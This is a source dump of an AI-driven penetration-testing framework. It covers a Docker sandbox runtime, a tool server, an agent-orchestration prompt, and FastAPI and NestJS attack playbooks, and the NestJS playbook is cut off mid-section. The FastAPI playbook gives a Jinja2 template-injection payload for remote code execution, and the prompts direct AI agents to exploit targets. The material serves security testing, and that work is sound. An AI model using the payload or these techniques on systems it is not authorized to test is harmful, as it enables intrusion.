        container_name = f"strix-scan-{scan_id}"
        image_name = Config.get("strix_image")
        if not image_name:
            raise ValueError("STRIX_IMAGE must be configured")

        self._verify_image_available(image_name)

        last_error: Exception | None = None
        for attempt in range(max_retries + 1):
            try:
                with contextlib.suppress(NotFound):
                    existing = self.client.containers.get(container_name)
                    with contextlib.suppress(Exception):
                        existing.stop(timeout=5)
                    existing.remove(force=True)
                    time.sleep(1)

                self._tool_server_port = self._find_available_port()
                self._caido_port = self._find_available_port()
                self._tool_server_token = secrets.token_urlsafe(32)
                execution_timeout = Config.get("strix_sandbox_execution_timeout") or "120"

                container = self.client.containers.run(
                    image_name,
                    command="sleep infinity",
                    detach=True,
                    name=container_name,
                    hostname=container_name,
                    ports={
                        f"{CONTAINER_TOOL_SERVER_PORT}/tcp": self._tool_server_port,
                        f"{CONTAINER_CAIDO_PORT}/tcp": self._caido_port,
                    },
                    cap_add=["NET_ADMIN", "NET_RAW"],
                    labels={"strix-scan-id": scan_id},
                    environment={
                        "PYTHONUNBUFFERED": "1",
                        "TOOL_SERVER_PORT": str(CONTAINER_TOOL_SERVER_PORT),
                        "TOOL_SERVER_TOKEN": self._tool_server_token,
                        "STRIX_SANDBOX_EXECUTION_TIMEOUT": str(execution_timeout),
                        "HOST_GATEWAY": HOST_GATEWAY_HOSTNAME,
                    },
                    extra_hosts={HOST_GATEWAY_HOSTNAME: "host-gateway"},
                    tty=True,
                )

                self._scan_container = container
                self._wait_for_tool_server()

            except (DockerException, RequestsConnectionError, RequestsTimeout) as e:
                last_error = e
                if attempt < max_retries:
                    self._tool_server_port = None
                    self._tool_server_token = None
                    self._caido_port = None
                    time.sleep(2**attempt)
            else:
                return container

        raise SandboxInitializationError(
            "Failed to create container",
            f"Container creation failed after {max_retries + 1} attempts: {last_error}",
        ) from last_error

    def _get_or_create_container(self, scan_id: str) -> Container:
        container_name = f"strix-scan-{scan_id}"

        if self._scan_container:
            try:
                self._scan_container.reload()
                if self._scan_container.status == "running":
                    return self._scan_container
            except NotFound:
                self._scan_container = None
                self._tool_server_port = None
                self._tool_server_token = None
                self._caido_port = None

        try:
            container = self.client.containers.get(container_name)
            container.reload()

            if container.status != "running":
                container.start()
                time.sleep(2)

            self._scan_container = container
            self._recover_container_state(container)
        except NotFound:
            pass
        else:
            return container

        try:
            containers = self.client.containers.list(
                all=True, filters={"label": f"strix-scan-id={scan_id}"}
            )
            if containers:
                container = containers[0]
                if container.status != "running":
                    container.start()
                    time.sleep(2)

                self._scan_container = container
                self._recover_container_state(container)
                return container
        except DockerException:
            pass

        return self._create_container(scan_id)

    def _copy_local_directory_to_container(
        self, container: Container, local_path: str, target_name: str | None = None
    ) -> None:
        import tarfile
        from io import BytesIO

        try:
            local_path_obj = Path(local_path).resolve()
            if not local_path_obj.exists() or not local_path_obj.is_dir():
                return

            tar_buffer = BytesIO()
            with tarfile.open(fileobj=tar_buffer, mode="w") as tar:
                for item in local_path_obj.rglob("*"):
                    if item.is_file():
                        rel_path = item.relative_to(local_path_obj)
                        arcname = Path(target_name) / rel_path if target_name else rel_path
                        tar.add(item, arcname=arcname)

            tar_buffer.seek(0)
            container.put_archive("/workspace", tar_buffer.getvalue())
            container.exec_run(
                "chown -R pentester:pentester /workspace && chmod -R 755 /workspace",
                user="root",
            )
        except (OSError, DockerException):
            pass

    async def create_sandbox(
        self,
        agent_id: str,
        existing_token: str | None = None,
        local_sources: list[dict[str, str]] | None = None,
    ) -> SandboxInfo:
        scan_id = self._get_scan_id(agent_id)
        container = self._get_or_create_container(scan_id)

        source_copied_key = f"_source_copied_{scan_id}"
        if local_sources and not hasattr(self, source_copied_key):
            for index, source in enumerate(local_sources, start=1):
                source_path = source.get("source_path")
                if not source_path:
                    continue
                target_name = (
                    source.get("workspace_subdir") or Path(source_path).name or f"target_{index}"
                )
                self._copy_local_directory_to_container(container, source_path, target_name)
            setattr(self, source_copied_key, True)

        if container.id is None:
            raise RuntimeError("Docker container ID is unexpectedly None")

        token = existing_token or self._tool_server_token
        if self._tool_server_port is None or self._caido_port is None or token is None:
            raise RuntimeError("Tool server not initialized")

        host = self._resolve_docker_host()
        api_url = f"http://{host}:{self._tool_server_port}"

        await self._register_agent(api_url, agent_id, token)

        return {
            "workspace_id": container.id,
            "api_url": api_url,
            "auth_token": token,
            "tool_server_port": self._tool_server_port,
            "caido_port": self._caido_port,
            "agent_id": agent_id,
        }

    async def _register_agent(self, api_url: str, agent_id: str, token: str) -> None:
        try:
            async with httpx.AsyncClient(trust_env=False) as client:
                response = await client.post(
                    f"{api_url}/register_agent",
                    params={"agent_id": agent_id},
                    headers={"Authorization": f"Bearer {token}"},
                    timeout=30,
                )
                response.raise_for_status()
        except httpx.RequestError:
            pass

    async def get_sandbox_url(self, container_id: str, port: int) -> str:
        try:
            self.client.containers.get(container_id)
            return f"http://{self._resolve_docker_host()}:{port}"
        except NotFound:
            raise ValueError(f"Container {container_id} not found.") from None

    def _resolve_docker_host(self) -> str:
        docker_host = os.getenv("DOCKER_HOST", "")
        if docker_host:
            from urllib.parse import urlparse

            parsed = urlparse(docker_host)
            if parsed.scheme in ("tcp", "http", "https") and parsed.hostname:
                return parsed.hostname
        return "127.0.0.1"

    async def destroy_sandbox(self, container_id: str) -> None:
        try:
            container = self.client.containers.get(container_id)
            container.stop()
            container.remove()
            self._scan_container = None
            self._tool_server_port = None
            self._tool_server_token = None
            self._caido_port = None
        except (NotFound, DockerException):
            pass

    def cleanup(self) -> None:
        if self._scan_container is not None:
            container_name = self._scan_container.name
            self._scan_container = None
            self._tool_server_port = None
            self._tool_server_token = None
            self._caido_port = None

            if container_name is None:
                return

            import subprocess

            subprocess.Popen(  # noqa: S603
                ["docker", "rm", "-f", container_name],  # noqa: S607
                stdout=subprocess.DEVNULL,
                stderr=subprocess.DEVNULL,
                start_new_session=True,
            )
```

## File: `strix/runtime/runtime.py`
```python
from abc import ABC, abstractmethod
from typing import TypedDict


class SandboxInfo(TypedDict):
    workspace_id: str
    api_url: str
    auth_token: str | None
    tool_server_port: int
    caido_port: int
    agent_id: str


class AbstractRuntime(ABC):
    @abstractmethod
    async def create_sandbox(
        self,
        agent_id: str,
        existing_token: str | None = None,
        local_sources: list[dict[str, str]] | None = None,
    ) -> SandboxInfo:
        raise NotImplementedError

    @abstractmethod
    async def get_sandbox_url(self, container_id: str, port: int) -> str:
        raise NotImplementedError

    @abstractmethod
    async def destroy_sandbox(self, container_id: str) -> None:
        raise NotImplementedError

    def cleanup(self) -> None:
        raise NotImplementedError
```

## File: `strix/runtime/tool_server.py`
```python
from __future__ import annotations

import argparse
import asyncio
import os
import signal
import sys
from typing import Any

import uvicorn
from fastapi import Depends, FastAPI, HTTPException, status
from fastapi.security import HTTPAuthorizationCredentials, HTTPBearer
from pydantic import BaseModel, ValidationError


SANDBOX_MODE = os.getenv("STRIX_SANDBOX_MODE", "false").lower() == "true"
if not SANDBOX_MODE:
    raise RuntimeError("Tool server should only run in sandbox mode (STRIX_SANDBOX_MODE=true)")

parser = argparse.ArgumentParser(description="Start Strix tool server")
parser.add_argument("--token", required=True, help="Authentication token")
parser.add_argument("--host", default="0.0.0.0", help="Host to bind to")  # nosec
parser.add_argument("--port", type=int, required=True, help="Port to bind to")
parser.add_argument(
    "--timeout",
    type=int,
    default=120,
    help="Hard timeout in seconds for each request execution (default: 120)",
)

args = parser.parse_args()
EXPECTED_TOKEN = args.token
REQUEST_TIMEOUT = args.timeout

app = FastAPI()
security = HTTPBearer()
security_dependency = Depends(security)

agent_tasks: dict[str, asyncio.Task[Any]] = {}


def verify_token(credentials: HTTPAuthorizationCredentials) -> str:
    if not credentials or credentials.scheme != "Bearer":
        raise HTTPException(
            status_code=status.HTTP_401_UNAUTHORIZED,
            detail="Invalid authentication scheme. Bearer token required.",
            headers={"WWW-Authenticate": "Bearer"},
        )

    if credentials.credentials != EXPECTED_TOKEN:
        raise HTTPException(
            status_code=status.HTTP_401_UNAUTHORIZED,
            detail="Invalid authentication token",
            headers={"WWW-Authenticate": "Bearer"},
        )

    return credentials.credentials


class ToolExecutionRequest(BaseModel):
    agent_id: str
    tool_name: str
    kwargs: dict[str, Any]


class ToolExecutionResponse(BaseModel):
    result: Any | None = None
    error: str | None = None


async def _run_tool(agent_id: str, tool_name: str, kwargs: dict[str, Any]) -> Any:
    from strix.tools.argument_parser import convert_arguments
    from strix.tools.context import set_current_agent_id
    from strix.tools.registry import get_tool_by_name

    set_current_agent_id(agent_id)

    tool_func = get_tool_by_name(tool_name)
    if not tool_func:
        raise ValueError(f"Tool '{tool_name}' not found")

    converted_kwargs = convert_arguments(tool_func, kwargs)
    return await asyncio.to_thread(tool_func, **converted_kwargs)


@app.post("/execute", response_model=ToolExecutionResponse)
async def execute_tool(
    request: ToolExecutionRequest, credentials: HTTPAuthorizationCredentials = security_dependency
) -> ToolExecutionResponse:
    verify_token(credentials)

    agent_id = request.agent_id

    if agent_id in agent_tasks:
        old_task = agent_tasks[agent_id]
        if not old_task.done():
            old_task.cancel()

    task = asyncio.create_task(
        asyncio.wait_for(
            _run_tool(agent_id, request.tool_name, request.kwargs), timeout=REQUEST_TIMEOUT
        )
    )
    agent_tasks[agent_id] = task

    try:
        result = await task
        return ToolExecutionResponse(result=result)

    except asyncio.CancelledError:
        return ToolExecutionResponse(error="Cancelled by newer request")

    except TimeoutError:
        return ToolExecutionResponse(error=f"Tool timed out after {REQUEST_TIMEOUT}s")

    except ValidationError as e:
        return ToolExecutionResponse(error=f"Invalid arguments: {e}")

    except (ValueError, RuntimeError, ImportError) as e:
        return ToolExecutionResponse(error=f"Tool execution error: {e}")

    except Exception as e:  # noqa: BLE001
        return ToolExecutionResponse(error=f"Unexpected error: {e}")

    finally:
        if agent_tasks.get(agent_id) is task:
            del agent_tasks[agent_id]


@app.post("/register_agent")
async def register_agent(
    agent_id: str, credentials: HTTPAuthorizationCredentials = security_dependency
) -> dict[str, str]:
    verify_token(credentials)
    return {"status": "registered", "agent_id": agent_id}


@app.get("/health")
async def health_check() -> dict[str, Any]:
    return {
        "status": "healthy",
        "sandbox_mode": str(SANDBOX_MODE),
        "environment": "sandbox" if SANDBOX_MODE else "main",
        "auth_configured": "true" if EXPECTED_TOKEN else "false",
        "active_agents": len(agent_tasks),
        "agents": list(agent_tasks.keys()),
    }


def signal_handler(_signum: int, _frame: Any) -> None:
    if hasattr(signal, "SIGPIPE"):
        signal.signal(signal.SIGPIPE, signal.SIG_IGN)
    for task in agent_tasks.values():
        task.cancel()
    sys.exit(0)


if hasattr(signal, "SIGPIPE"):
    signal.signal(signal.SIGPIPE, signal.SIG_IGN)

signal.signal(signal.SIGTERM, signal_handler)
signal.signal(signal.SIGINT, signal_handler)

if __name__ == "__main__":
    uvicorn.run(app, host=args.host, port=args.port, log_level="info")
```

## File: `strix/runtime/__init__.py`
```python
from strix.config import Config

from .runtime import AbstractRuntime


class SandboxInitializationError(Exception):
    """Raised when sandbox initialization fails (e.g., Docker issues)."""

    def __init__(self, message: str, details: str | None = None):
        super().__init__(message)
        self.message = message
        self.details = details


_global_runtime: AbstractRuntime | None = None


def get_runtime() -> AbstractRuntime:
    global _global_runtime  # noqa: PLW0603

    runtime_backend = Config.get("strix_runtime_backend")

    if runtime_backend == "docker":
        from .docker_runtime import DockerRuntime

        if _global_runtime is None:
            _global_runtime = DockerRuntime()
        return _global_runtime

    raise ValueError(
        f"Unsupported runtime backend: {runtime_backend}. Only 'docker' is supported for now."
    )


def cleanup_runtime() -> None:
    global _global_runtime  # noqa: PLW0603

    if _global_runtime is not None:
        _global_runtime.cleanup()
        _global_runtime = None


__all__ = ["AbstractRuntime", "SandboxInitializationError", "cleanup_runtime", "get_runtime"]
```

## File: `strix/skills/README.md`
```markdown
# 📚 Strix Skills

## 🎯 Overview

Skills are specialized knowledge packages that enhance Strix agents with deep expertise in specific vulnerability types, technologies, and testing methodologies. Each skill provides advanced techniques, practical examples, and validation methods that go beyond baseline security knowledge.

---

## 🏗️ Architecture

### How Skills Work

When an agent is created, it can load up to 5 specialized skills relevant to the specific subtask and context at hand:

```python
# Agent creation with specialized skills
create_agent(
    task="Test authentication mechanisms in API",
    name="Auth Specialist",
    skills="authentication_jwt,business_logic"
)
```

The skills are dynamically injected into the agent's system prompt, allowing it to operate with deep expertise tailored to the specific vulnerability types or technologies required for the task at hand.

---

## 📁 Skill Categories

| Category | Purpose |
|----------|---------|
| **`/vulnerabilities`** | Advanced testing techniques for core vulnerability classes like authentication bypasses, business logic flaws, and race conditions |
| **`/frameworks`** | Specific testing methods for popular frameworks e.g. Django, Express, FastAPI, and Next.js |
| **`/technologies`** | Specialized techniques for third-party services such as Supabase, Firebase, Auth0, and payment gateways |
| **`/protocols`** | Protocol-specific testing patterns for GraphQL, WebSocket, OAuth, and other communication standards |
| **`/cloud`** | Cloud provider security testing for AWS, Azure, GCP, and Kubernetes environments |
| **`/reconnaissance`** | Advanced information gathering and enumeration techniques for comprehensive attack surface mapping |
| **`/custom`** | Community-contributed skills for specialized or industry-specific testing scenarios |

---

## 🎨 Creating New Skills

### What Should a Skill Contain?

A good skill is a structured knowledge package that typically includes:

- **Advanced techniques** - Non-obvious methods specific to the task and domain
- **Practical examples** - Working payloads, commands, or test cases with variations
- **Validation methods** - How to confirm findings and avoid false positives
- **Context-specific insights** - Environment and version nuances, configuration-dependent behavior, and edge cases
- **YAML frontmatter** - `name` and `description` fields for skill metadata

Skills focus on deep, specialized knowledge to significantly enhance agent capabilities. They are dynamically injected into agent context when needed.

---

## 🤝 Contributing

Community contributions are more than welcome — contribute new skills via [pull requests](https://github.com/usestrix/strix/pulls) or [GitHub issues](https://github.com/usestrix/strix/issues) to help expand the collection and improve extensibility for Strix agents.

---

> [!NOTE]
> **Work in Progress** - We're actively expanding the skills collection with specialized techniques and new categories.
```

## File: `strix/skills/__init__.py`
```python
import re

from strix.utils.resource_paths import get_strix_resource_path


_EXCLUDED_CATEGORIES = {"scan_modes", "coordination"}
_FRONTMATTER_PATTERN = re.compile(r"^---\s*\n.*?\n---\s*\n", re.DOTALL)


def get_available_skills() -> dict[str, list[str]]:
    skills_dir = get_strix_resource_path("skills")
    available_skills: dict[str, list[str]] = {}

    if not skills_dir.exists():
        return available_skills

    for category_dir in skills_dir.iterdir():
        if category_dir.is_dir() and not category_dir.name.startswith("__"):
            category_name = category_dir.name

            if category_name in _EXCLUDED_CATEGORIES:
                continue

            skills = []

            for file_path in category_dir.glob("*.md"):
                skill_name = file_path.stem
                skills.append(skill_name)

            if skills:
                available_skills[category_name] = sorted(skills)

    return available_skills


def get_all_skill_names() -> set[str]:
    all_skills = set()
    for category_skills in get_available_skills().values():
        all_skills.update(category_skills)
    return all_skills


def validate_skill_names(skill_names: list[str]) -> dict[str, list[str]]:
    available_skills = get_all_skill_names()
    valid_skills = []
    invalid_skills = []

    for skill_name in skill_names:
        if skill_name in available_skills:
            valid_skills.append(skill_name)
        else:
            invalid_skills.append(skill_name)

    return {"valid": valid_skills, "invalid": invalid_skills}


def generate_skills_description() -> str:
    available_skills = get_available_skills()

    if not available_skills:
        return "No skills available"

    all_skill_names = get_all_skill_names()

    if not all_skill_names:
        return "No skills available"

    sorted_skills = sorted(all_skill_names)
    skills_str = ", ".join(sorted_skills)

    description = f"List of skills to load for this agent (max 5). Available skills: {skills_str}. "

    example_skills = sorted_skills[:2]
    if example_skills:
        example = f"Example: {', '.join(example_skills)} for specialized agent"
        description += example

    return description


def _get_all_categories() -> dict[str, list[str]]:
    """Get all skill categories including internal ones (scan_modes, coordination)."""
    skills_dir = get_strix_resource_path("skills")
    all_categories: dict[str, list[str]] = {}

    if not skills_dir.exists():
        return all_categories

    for category_dir in skills_dir.iterdir():
        if category_dir.is_dir() and not category_dir.name.startswith("__"):
            category_name = category_dir.name
            skills = []

            for file_path in category_dir.glob("*.md"):
                skill_name = file_path.stem
                skills.append(skill_name)

            if skills:
                all_categories[category_name] = sorted(skills)

    return all_categories


def load_skills(skill_names: list[str]) -> dict[str, str]:
    import logging

    logger = logging.getLogger(__name__)
    skill_content = {}
    skills_dir = get_strix_resource_path("skills")

    all_categories = _get_all_categories()

    for skill_name in skill_names:
        try:
            skill_path = None

            if "/" in skill_name:
                skill_path = f"{skill_name}.md"
            else:
                for category, skills in all_categories.items():
                    if skill_name in skills:
                        skill_path = f"{category}/{skill_name}.md"
                        break

                if not skill_path:
                    root_candidate = f"{skill_name}.md"
                    if (skills_dir / root_candidate).exists():
                        skill_path = root_candidate

            if skill_path and (skills_dir / skill_path).exists():
                full_path = skills_dir / skill_path
                var_name = skill_name.split("/")[-1]
                content = full_path.read_text(encoding="utf-8")
                content = _FRONTMATTER_PATTERN.sub("", content).lstrip()
                skill_content[var_name] = content
                logger.info(f"Loaded skill: {skill_name} -> {var_name}")
            else:
                logger.warning(f"Skill not found: {skill_name}")

        except (FileNotFoundError, OSError, ValueError) as e:
            logger.warning(f"Failed to load skill {skill_name}: {e}")

    return skill_content
```

## File: `strix/skills/coordination/root_agent.md`
```markdown
---
name: root-agent
description: Orchestration layer that coordinates specialized subagents for security assessments
---

# Root Agent

Orchestration layer for security assessments. This agent coordinates specialized subagents but does not perform testing directly.

You can create agents throughout the testing process—not just at the beginning. Spawn agents dynamically based on findings and evolving scope.

## Role

- Decompose targets into discrete, parallelizable tasks
- Spawn and monitor specialized subagents
- Aggregate findings into a cohesive final report
- Manage dependencies and handoffs between agents

## Scope Decomposition

Before spawning agents, analyze the target:

1. **Identify attack surfaces** - web apps, APIs, infrastructure, etc.
2. **Define boundaries** - in-scope domains, IP ranges, excluded assets
3. **Determine approach** - blackbox, greybox, or whitebox assessment
4. **Prioritize by risk** - critical assets and high-value targets first

## Agent Architecture

Structure agents by function:

**Reconnaissance**
- Asset discovery and enumeration
- Technology fingerprinting
- Attack surface mapping

**Vulnerability Assessment**
- Injection testing (SQLi, XSS, command injection)
- Authentication and session analysis
- Access control testing (IDOR, privilege escalation)
- Business logic flaws
- Infrastructure vulnerabilities

**Exploitation and Validation**
- Proof-of-concept development
- Impact demonstration
- Vulnerability chaining

**Reporting**
- Finding documentation
- Remediation recommendations

## Coordination Principles

**Task Independence**

Create agents with minimal dependencies. Parallel execution is faster than sequential.

**Clear Objectives**

Each agent should have a specific, measurable goal. Vague objectives lead to scope creep and redundant work.

**Avoid Duplication**

Before creating agents:
1. Analyze the target scope and break into independent tasks
2. Check existing agents to avoid overlap
3. Create agents with clear, specific objectives

**Hierarchical Delegation**

Complex findings warrant specialized subagents:
- Discovery agent finds potential vulnerability
- Validation agent confirms exploitability
- Reporting agent documents with reproduction steps
- Fix agent provides remediation (if needed)

**Resource Efficiency**

- Avoid duplicate coverage across agents
- Terminate agents when objectives are met or no longer relevant
- Use message passing only when essential (requests/answers, critical handoffs)
- Prefer batched updates over routine status messages

## Completion

When all agents report completion:

1. Collect and deduplicate findings across agents
2. Assess overall security posture
3. Compile executive summary with prioritized recommendations
4. Invoke finish tool with final report
```

## File: `strix/skills/frameworks/fastapi.md`
```markdown
---
name: fastapi
description: Security testing playbook for FastAPI applications covering ASGI, dependency injection, and API vulnerabilities
---

# FastAPI

Security testing for FastAPI/Starlette applications. Focus on dependency injection flaws, middleware gaps, and authorization drift across routers and channels.

## Attack Surface

**Core Components**
- ASGI middlewares: CORS, TrustedHost, ProxyHeaders, Session, exception handlers, lifespan events
- Routers and sub-apps: APIRouter prefixes/tags, mounted apps (StaticFiles, admin), `include_router`, versioned paths
- Dependency injection: `Depends`, `Security`, `OAuth2PasswordBearer`, `HTTPBearer`, scopes

**Data Handling**
- Pydantic models: v1/v2, unions/Annotated, custom validators, extra fields policy, coercion
- File operations: UploadFile, File, FileResponse, StaticFiles mounts
- Templates: Jinja2Templates rendering

**Channels**
- HTTP (sync/async), WebSocket, SSE/StreamingResponse
- BackgroundTasks and task queues

**Deployment**
- Uvicorn/Gunicorn, reverse proxies/CDN, TLS termination, header trust

## High-Value Targets

- `/openapi.json`, `/docs`, `/redoc` in production (full attack surface map, securitySchemes, server URLs)
- Auth flows: token endpoints, session/cookie bridges, OAuth device/PKCE
- Admin/staff routers, feature-flagged routes, `include_in_schema=False` endpoints
- File upload/download, import/export/report endpoints, signed URL generators
- WebSocket endpoints (notifications, admin channels, commands)
- Background job endpoints (`/jobs/{id}`, `/tasks/{id}/result`)
- Mounted subapps (admin UI, storage browsers, metrics/health)

## Reconnaissance

**OpenAPI Mining**
```
GET /openapi.json
GET /docs
GET /redoc
GET /api/openapi.json
GET /internal/openapi.json
```

Extract: paths, parameters, securitySchemes, scopes, servers. Endpoints with `include_in_schema=False` won't appear—fuzz based on discovered prefixes and common admin/debug names.

**Dependency Mapping**

For each route, identify:
- Router-level dependencies (applied to all routes)
- Route-level dependencies (per endpoint)
- Which dependencies enforce auth vs just parse input

## Key Vulnerabilities

### Authentication & Authorization

**Dependency Injection Gaps**
- Routes missing security dependencies present on other routes
- `Depends` used instead of `Security` (ignores scope enforcement)
- Token presence treated as authentication without signature verification
- `OAuth2PasswordBearer` only yields a token string—verify routes don't treat presence as auth

**JWT Misuse**
- Decode without verify: test unsigned tokens, attacker-signed tokens
- Algorithm confusion: HS256/RS256 cross-use if not pinned
- `kid` header injection for custom key lookup paths
- Missing issuer/audience validation, cross-service token reuse

**Session Weaknesses**
- SessionMiddleware with weak `secret_key`
- Session fixation via predictable signing
- Cookie-based auth without CSRF protection

**OAuth/OIDC**
- Device/PKCE flows: verify strict PKCE S256 and state/nonce enforcement

### Access Control

**IDOR via Dependencies**
- Object IDs in path/query not validated against caller
- Tenant headers trusted without binding to authenticated user
- BackgroundTasks acting on IDs without re-validating ownership at execution time
- Export/import pipelines with IDOR and cross-tenant leaks

**Scope Bypass**
- Minimal scope satisfaction (any valid token accepted)
- Router vs route scope enforcement inconsistency

### Input Handling

**Pydantic Exploitation**
- Type coercion: strings to ints/bools, empty strings to None, truthiness edge cases
- Extra fields: `extra = "allow"` permits injecting control fields (role, ownerId, scope)
- Union types and `Annotated`: craft shapes hitting unintended validation branches

**Content-Type Switching**
```
application/json ↔ application/x-www-form-urlencoded ↔ multipart/form-data
```
Different content types hit different validators or code paths (parser differentials).

**Parameter Manipulation**
- Case variations in header/cookie names
- Duplicate parameters exploiting DI precedence
- Method override via `X-HTTP-Method-Override` (upstream respects, app doesn't)

### CORS & CSRF

**CORS Misconfiguration**
- Overly broad `allow_origin_regex`
- Origin reflection without validation
- Credentialed requests with permissive origins
- Verify preflight vs actual request deltas

**CSRF Exposure**
- No built-in CSRF in FastAPI/Starlette
- Cookie-based auth without origin validation
- Missing SameSite attribute

### Proxy & Host Trust

**Header Spoofing**
- ProxyHeadersMiddleware without network boundary: spoof `X-Forwarded-For/Proto` to influence auth/IP gating
- Absent TrustedHostMiddleware: Host header poisoning in password reset links, absolute URL generation
- Cache key confusion: missing Vary on Authorization/Cookie/Tenant

### Server-Side Vulnerabilities

**Template Injection (Jinja2)**
```python
{{7*7}}  # Arithmetic confirmation
{{cycler.__init__.__globals__['os'].popen('id').read()}}  # RCE
```
Check autoescape settings and custom filters/globals.

**SSRF**
- User-supplied URLs in imports, previews, webhooks validation
- Test: loopback, RFC1918, IPv6, redirects, DNS rebinding, header control
- Library behavior (httpx/requests): redirect policy, header forwarding, protocol support
- Protocol smuggling: `file://`, `ftp://`, gopher-like shims if custom clients

**File Upload**
- Path traversal in `UploadFile.filename` with control characters
- Missing storage root enforcement, symlink following
- Vary filename encodings, dot segments, NUL-like bytes
- Verify storage paths and served URLs

### WebSocket Security

- Missing per-connection authentication
- Cross-origin WebSocket without origin validation
- Topic/channel IDOR (subscribing to other users' channels)
- Authorization only at handshake, not per-message

### Mounted Apps

Sub-apps at `/admin`, `/static`, `/metrics` may bypass global middlewares. Verify auth enforcement parity across all mounts.

### Alternative Stacks

- If GraphQL (Strawberry/Graphene) is mounted: validate resolver-level authorization, IDOR on node/global IDs
- If SQLModel/SQLAlchemy present: probe for raw query usage and row-level authorization gaps

## Bypass Techniques

- Content-type switching to traverse alternate validators
- Parameter duplication and case variants exploiting DI precedence
- Method confusion via proxies (`X-HTTP-Method-Override`)
- Race windows around dependency-validated state transitions (issue token then mutate with parallel requests)

## Testing Methodology

1. **Enumerate** - Fetch OpenAPI, diff with 404-fuzzing for hidden endpoints
2. **Matrix testing** - Test each route across: unauth/user/admin × HTTP/WebSocket × JSON/form/multipart
3. **Dependency analysis** - Map which dependencies enforce auth vs parse input
4. **Cross-environment** - Compare dev/stage/prod for middleware and docs exposure differences
5. **Channel consistency** - Verify same authorization on HTTP and WebSocket for equivalent operations

## Validation Requirements

- Side-by-side requests showing unauthorized access (owner vs non-owner, cross-tenant)
- Cross-channel proof (HTTP and WebSocket for same rule)
- Header/proxy manipulation showing altered outcomes (Host/XFF/CORS)
- Minimal payloads for template injection, SSRF, token misuse with safe/OAST oracles
- Document exact dependency paths (router-level, route-level) that missed enforcement
```

## File: `strix/skills/frameworks/nestjs.md`
```markdown
---
name: nestjs
description: Security testing playbook for NestJS applications covering guards, pipes, decorators, module boundaries, and multi-transport auth
---

# NestJS

Security testing for NestJS applications. Focus on guard gaps across decorator stacks, validation pipe bypasses, module boundary leaks, and inconsistent auth enforcement across HTTP, WebSocket, and microservice transports.

## Attack Surface

**Decorator Pipeline**
- Guards: `@UseGuards`, `CanActivate`, execution context (HTTP/WS/RPC), `Reflector` metadata
- Pipes: `ValidationPipe` (whitelist, transform, forbidNonWhitelisted), `ParseIntPipe`, custom pipes
- Interceptors: response mapping, caching, logging, timeout — can modify request/response flow
- Filters: exception filters that may leak information
- Metadata: `@SetMetadata`, `@Public()`, `@Roles()`, `@Permissions()`

**Module System**
- `@Module` boundaries, provider scoping (DEFAULT/REQUEST/TRANSIENT)
- Dynamic modules: `forRoot`/`forRootAsync`, global modules
- DI container: provider overrides, custom providers

**Controllers & Transports**
- REST: `@Controller`, versioning (URI/Header/MediaType)
- GraphQL: `@Resolver`, playground/sandbox exposure
- WebSocket: `@WebSocketGateway`, gateway guards, room authorization
- Microservices: TCP, Redis, NATS, MQTT, gRPC, Kafka — often lack HTTP-level auth

**Data Layer**
- TypeORM: repositories, QueryBuilder, raw queries, relations
- Prisma: `$queryRaw`, `$queryRawUnsafe`
- Mongoose: operator injection, `$where`, `$regex`

**Auth & Config**
- `@nestjs/passport` strategies, `@nestjs/jwt`, session-based auth
- `@nestjs/config`, ConfigService, `.env` files
- `@nestjs/throttler`, rate limiting with `@SkipThrottle`

**API Documentation**
- `@nestjs/swagger`: OpenAPI exposure, DTO schemas, auth schemes

## High-Value Targets

- Swagger/OpenAPI endpoints in production (`/api`, `/api-docs`, `/api-json`, `/swagger`)
- Auth endpoints: login, register, token refresh, password reset, OAuth callbacks
- Admin controllers decorated with `@Roles('admin')` — test with user-level tokens
- File upload endpoints using `FileInterceptor`/`FilesInterceptor`
- WebSocket gateways sharing business logic with HTTP controllers
- Microservice handlers (`@MessagePattern`, `@EventPattern`) — often unguarded
- CRUD generators (`@nestjsx/crud`) with auto-generated endpoints
- Background jobs and scheduled tasks (`@nestjs/schedule`)
- Health/metrics endpoints (`@nestjs/terminus`, `/health`, `/metrics`)
- GraphQL playground/sandbox in production (`/graphql`)

## Reconnaissance

**Swagger Discovery**
```
GET /api
GET /api-docs
GET /api-json
GET /swagger
GET /docs
GET /v1/api-docs
GET /api/v2/docs
```

Extract: paths, parameter schemas, DTOs, auth schemes, example values. Swagger may reveal internal endpoints, deprecated routes, and admin-only paths not visible in the UI.

**Guard Mapping**

For each controller and method, identify:
- Global guards (applied in `main.ts` or app module)
- Controller-level guards (`@UseGuards` on the class)
- Method-level guards (`@UseGuards` on individual handlers)
- `@Public()` or `@SkipThrottle()` decorators that bypass protection

## Key Vulnerabilities

### Guard Bypass

**Decorator Stack Gaps**
- Guards execute: global → controller → method. A method missing `@UseGuards` when siblings have it is the #1 finding.
- `@Public()` metadata causing global `AuthGuard` to skip enforcement — check if applied too broadly.
- New methods added to existing controllers without inheriting the expected guard.

**ExecutionContext Switching**
- Guards handling only HTTP context (`getRequest()`) may fail silently on WebSocket or RPC, returning `true` by default.
- Test same business logic through alternate transports to find context-specific bypasses.

**Reflector Mismatches**
- Guard reads `SetMetadata('roles', [...])` but decorator sets `'role'` (singular) — guard sees no metadata, defaults to allow.
- `applyDecorators()` compositions accidentally overriding stricter guards with permissive ones.

### Validation Pipe Exploits

**Whitelist Bypass**
- `whitelist: true` without `forbidNonWhitelisted: true`: extra properties silently stripped but may have been processed by earlier middleware/interceptors.
- Missing `@Type(() => ChildDto)` on nested objects: `@ValidateNested()` without `@Type` means nested payload is never validated.
- Array elements: `@IsArray()` doesn't validate elements without `@ValidateNested({ each: true })` and `@Type`.

**Type Coercion**
- `transform: true` enables implicit coercion: strings → numbers, `"true"` → `true`, `"null"` → `null`.
- Exploit truthiness assumptions in business logic downstream.

**Conditional Validation**
- `@ValidateIf()` and validation groups creating paths where fields skip validation entirely.

**Missing Parse Pipes**
- `@Param('id')` without `ParseIntPipe`/`ParseUUIDPipe` — string values reach ORM queries directly.

### Auth & Passport

**JWT Strategy**
- Check `ignoreExpiration` is false, `algorithms` is pinned (no `none` or HS/RS confusion)
- Weak `secretOrKey` values
- Cross-service token reuse when audience/issuer not enforced

**Passport Strategy Issues**
- `validate()` return value becomes `req.user` — if it returns full DB record, sensitive fields leak downstream
- Multiple strategies (JWT + session): one may bypass restrictions of the other
- Custom guards returning `true` for unauthenticated as "optional auth"

**Timing Attacks**
- Plain string comparison instead of bcrypt/argon2 in local strategy

### Serialization Leaks

**Missing ClassSerializerInterceptor**
- If not applied globally, `@Exclude()` fields (passwords, internal IDs) returned in responses.
- `@Expose()` with groups: admin-only fields exposed when groups not enforced per-request.

**Circular Relations**
